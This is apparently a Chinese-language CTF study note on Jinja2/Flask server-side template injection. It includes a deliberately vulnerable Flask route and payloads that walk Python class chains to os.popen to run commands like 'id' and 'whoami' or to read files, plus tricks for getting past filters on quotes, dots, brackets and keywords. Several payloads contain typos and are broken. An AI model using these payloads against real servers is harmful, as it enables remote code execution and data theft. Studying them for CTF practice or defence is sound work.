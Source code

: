 ##分隔符
{{}}:直接输出表达式的内容，{{2*4}}会输出8

{%%}:用于执行一些控制语句

{##}:用于注释模板文件的内容,其中包含的内容不会在页面输出
##控制语句
图片: https://uploader.shimo.im/f/sY5vUabLNYgWE5Oz.png
##过滤器
图片: https://uploader.shimo.im/f/U67O1A8HSjhQgBNN.png


模板中的全局变量以及函数
图片: https://uploader.shimo.im/f/nd45pMySS4Wg6d31.png

Example
注入源码

```
from flask import Flask
from flask import request
from flask import config
from flask import render_template_string
app = Flask(__name__)
app.config['SECRET_KEY'] = "flag{SSTI_123456}"
@app.route('/')

def hello_world():
    return 'Hello World!'
@app.route('/hello')
def say_hello():
    template = 'Hello {}'.format((request.args.get('name')))
    return render_template_string(template)
if __name__ == '__main__':
    app.run(host='0.0.0.0', debug=True)
    
```
在控制语句中，使用set来定义变量
{%set username = 'admin'%}{{username}}
图片: https://uploader.shimo.im/f/lx1DualHaP9YQFXQ.png
循环
{%for i in range(1,10)%}{%print i%}{%endfor%}
条件
{%if 1==1%}{{"success"}}{%endif%}


##ssti常用属性
__class__:用于获取当前对象所对应的类
__base__:返回一个类所直接继承的类
__mro__:返回一个类所继承的所有类
__dict__:返回当前类的函数，全局变量，属性等
__init__:所有类都具有__init__方法，便于利用他作为跳板访问__globals__
__globals__:用于获取function所处空间下使用的moudle，方法以及所有变量
__builtins:获取python内置的方法比如ord,chr等
一个类都继承自Object，所以最终都可以获取到Object类
__class__            类的一个内置属性，表示实例对象的类。
__base__             类型对象的直接基类
__bases__            类型对象的全部基类，以元组形式，类型的实例通常没有属性 __bases__
__mro__              此属性是由类组成的元组，在方法解析期间会基于它来查找基类。
__subclasses__()     返回这个类的子类集合，Each class keeps a list of weak references to its immediate subclasses. This method returns a list of all those references still alive. The list is in definition order.
__init__             初始化类，返回的类型是function
__globals__          使用方式是 函数名.__globals__获取function所处空间下可使用的module、方法以及所有变量。
__dic__              类的静态函数、类函数、普通函数、全局变量以及一些内置的属性都是放在类的__dict__里
__getattribute__()   实例、类、函数都具有的__getattribute__魔术方法。事实上，在实例化的对象进行.操作的时候（形如：a.xxx/a.xxx()），都会自动去调用__getattribute__方法。因此我们同样可以直接通过这个方法来获取到实例、类、函数的属性。
__getitem__()        调用字典中的键值，其实就是调用这个魔术方法，比如a['b']，就是a.__getitem__('b')
__builtins__         内建名称空间，内建名称空间有许多名字到对象之间映射，而这些名字其实就是内建函数的名称，对象就是这些内建函数本身。即里面有很多常用的函数。__builtins__与__builtin__的区别就不放了，百度都有。
__import__           动态加载类和函数，也就是导入模块，经常用于导入os模块，__import__('os').popen('ls').read()]
__str__()            返回描写这个对象的字符串，可以理解成就是打印出来。
url_for              flask的一个方法，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app。
get_flashed_messages flask的一个方法，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app。
lipsum               flask的一个方法，可以用于得到__builtins__，而且lipsum.__globals__含有os模块：{{lipsum.__globals__['os'].popen('ls').read()}}
current_app          应用上下文，一个全局变量。

request              可以用于获取字符串来绕过，包括下面这些，引用一下羽师傅的。此外，同样可以获取open函数:request.__init__.__globals__['__builtins__'].open('/proc\self\fd/3').read()
request.args.x1   	 get传参
request.values.x1 	 所有参数
request.cookies      cookies参数
request.headers      请求头参数
request.form.x1   	 post传参	(Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)
request.data  		 post传参	(Content-Type:a/b)
request.json		 post传json  (Content-Type: application/json)
config               当前application的所有配置。此外，也可以这样{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}




int()：将值转换为int类型；

float()：将值转换为float类型；

lower()：将字符串转换为小写；

upper()：将字符串转换为大写；

title()：把值中的每个单词的首字母都转成大写；

capitalize()：把变量值的首字母转成大写，其余字母转小写；

trim()：截取字符串前面和后面的空白字符；

wordcount()：计算一个长字符串中单词的个数；

reverse()：字符串反转；

replace(value,old,new)： 替换将old替换为new的字符串；

truncate(value,length=255,killwords=False)：截取length长度的字符串；

striptags()：删除字符串中所有的HTML标签，如果出现多个空格，将替换成一个空格；

escape()或e：转义字符，会将<、>等符号转义成HTML中的符号。显例：content|escape或content|e。

safe()： 禁用HTML转义，如果开启了全局转义，那么safe过滤器会将变量关掉转义。示例： {{'<em>hello</em>'|safe}}；

list()：将变量列成列表；

string()：将变量转换成字符串；

join()：将一个序列中的参数值拼接成字符串。示例看上面payload；

abs()：返回一个数值的绝对值；

first()：返回一个序列的第一个元素；

last()：返回一个序列的最后一个元素；

format(value,arags,*kwargs)：格式化字符串。比如：{{ "%s" - "%s"|format('Hello?',"Foo!") }}将输出：Helloo? - Foo!

length()：返回一个序列或者字典的长度；

sum()：返回列表内数值的和；

sort()：返回排序后的列表；

default(value,default_value,boolean=false)：如果当前变量没有值，则会使用参数中的值来代替。示例：name|default('xiaotuo')----如果name不存在，则会使用xiaotuo来替代。boolean=False默认是在只有这个变量为undefined的时候才会使用default中的值，如果想使用python的形式判断是否为false，则可以传递boolean=true。也可以使用or来替换。

length()返回字符串的长度，别名是count



##常用方法
__subclasses__:继承此类的子类，返回一个列表
__getattribute__:获取某个类的属性
调试时常用函数
dir:通过dir函数可以获取某个变量可调用的所有属性，函数等。

class A:
    def __init__(self):
        pass
class B(A):
    def __init__(self):
        pass
if __name__ == '__main__':
    b = B()
    print(b.__class__)
    print(b.__class__ == B)
    print(B.__base__)
    print(B.__mro__)



输出:
  <class '__main__.B'>
  True
  <class '__main__.A'>
  (<class '__main__.B'>, <class '__main__.A'>, <class 'object'>)
  

##ssti的一般流程
获取某个类 -> 获取到类的基类:Object -> 获取其所有子类 -> 通过获取__globals__来获取os,file或其他能执行命令or读取文件的moudle
随便获取一个类
#python中遵循万物皆对象,所以字符串列表字典等，都是对象。既然是对象，就是基于类创建的。我们可以使用''.__class__来获取到任意一个类

''.__class__
获取到基类Object
#python中的所有类都隐式的继承于基类Object，我们可以通过__base__或__mro__的方式获取到object类，对应上面的payload就是''.__class__.__base__

''.__class__.base__
获取其所有子类
由于object类是所有类的基类,所以我们可以通过__subclasses__()就可以获取到他的所有子类(所有类),对应成上面的payload ''.__class__.__mro__.subclass()
fuzz
查看哪一个类中的全局变量存在os,file等能够执行命令或者读取文件的函数

#payload:{{%27%27.__class__.__base__.__subclasses__()[442].__init__.__globals__['os']}}
一些绕过过滤的trick
{{''.__class__.__base__.__subclasses__()[442].__init__.__globals__['os'].popen("id").read()}}
基于以上payload解释如何绕过
过滤单引号
图片: https://uploader.shimo.im/f/vmJadLIrdfCqAcRB.png
除了字符串还有什么方式获取类
可以用任何类型来读取类:[].__class__ 0.__class__ {}.__class__
变量或函数来获取类:request.__class__ url_for.__class__ g.__class__ session.__class__ config.__class__
全局变量来获取类:dict range lipsum.__class__ joiner cycler namespace
jinja2将不存在变量定义为jinja2.runtime.Undefined，所以我们还可以通过如下方式获取类
不存在的变量名.__class__
如果不使用单引号来传递参数:
1.双引号
2.request
图片: https://uploader.shimo.im/f/7kZFuU37eguLLPUn.png

{{[].__class__.__base__.__subclasses__()[442].__init__.__globals__[request.accept_languages[0][0]].popen(request.accept_encodings[0][ 0]).read()}} 
chr
chr函数传递数字，最终得到的结果是一个字符串
那么在做题时，首先需要fuzz到chr函数
{{().__class__.__bases__[0].__subclasses__()[§0§].__init__.__globals__.__builtins__.chr}}

{%+set+chr=().__class__.__bases__[0].__subclasses__()[109].__init__.__globals__.__builtins__.chr%}{
图片: https://uploader.shimo.im/f/VidUnapOXHpqqeG7.png
过滤点号
中括号:{{''["__class__"]}}
过滤器:{{''|attr("__class__")}}
过滤中括号
图片: https://uploader.shimo.im/f/J1DkZmH2JiBvnc2v.png
列表代替
字典代替
元组代替

可以使用pop来从列表中取值

所以payload可以改为:
{{''.__class__.__base__.__subclasses__().popen(442).__init__.__globals__['os'].popen("ls").read()}}
get
__getitem__()
过滤器
可以使用过滤器的方式获取属性&方法
{''|attr("__class__")}}
元组代替
__getitem__来取值
过滤小括号
过滤了小括号，意味着没有办法执行函数，目前只能通过函数劫持的方法来解决，还没有其他比较好的方法,python函数调用必须使用小括号
过滤花括号
#使用的花括号是jinja的分割符，只有分隔符内的内容才会被当成模板解析，不然会原样输出
{%%}利用漏洞
获取基类:
{%set a=''.__class__.__base__%}{%print a%}
឴获取所有子类
{%set+a=''.__class__.__base__.__subclasses__()%}{%print+a%}
fuzz os module
{%set a=''.__class__.__base__.__subclasses__()[470].__init__.__globals__["os"]%}{%print a%} 
use os module call system command
{%set+a=''.__class__.__base__.__subclasses__()[470].__init__.__globals__["os"].popen("whoami")%}{%print+a.read()%}
图片: https://uploader.shimo.im/f/yRF6QQZdWte93wFR.png
过滤特点关键字

两种方法:过滤器，python语法
过滤器
attr(attr过滤器可以绕过关键字过滤)
图片: https://uploader.shimo.im/f/D8oIxVSiiXzLqgaw.png
format(可以将%s等换成对应内容)
join
图片: https://uploader.shimo.im/f/fgF9ejPbTrxT4oPY.png
图片: https://uploader.shimo.im/f/Lk3R8N2gSaOGNmcL.png
图片: https://uploader.shimo.im/f/yonzLKAJehsRrNBE.png
图片: https://uploader.shimo.im/f/V3HOsr9kHxhxBuNP.png
python语法
图片: https://uploader.shimo.im/f/mEmGkqAu758qLK9y.png
图片: https://uploader.shimo.im/f/uzKFrVe2hKwud8Mq.png
图片: https://uploader.shimo.im/f/SD0sRf5jIrcMNu1U.png
图片: https://uploader.shimo.im/f/BqyIpkbiB1Ajer5l.png
图片: https://uploader.shimo.im/f/UmVuCsUasM802exN.png
fuzz可用继承链








